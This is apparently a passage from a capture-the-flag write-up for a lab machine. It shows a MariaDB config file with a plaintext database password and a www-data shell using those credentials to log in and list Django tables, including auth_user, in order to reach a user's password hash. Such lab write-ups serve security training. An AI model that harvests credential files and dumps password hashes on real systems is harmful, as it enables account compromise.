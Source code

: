 ```bash
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.

#
# This group is read both both by the client and the server
# use it for options that affect everything
#
[client-server]

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```

Received the kyle's hash:

```bash
www-data@writer:/etc/mysql$ mysql -u djangouser -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 5338
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> show databases;
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [dev]> use dev;
Database changed
MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

```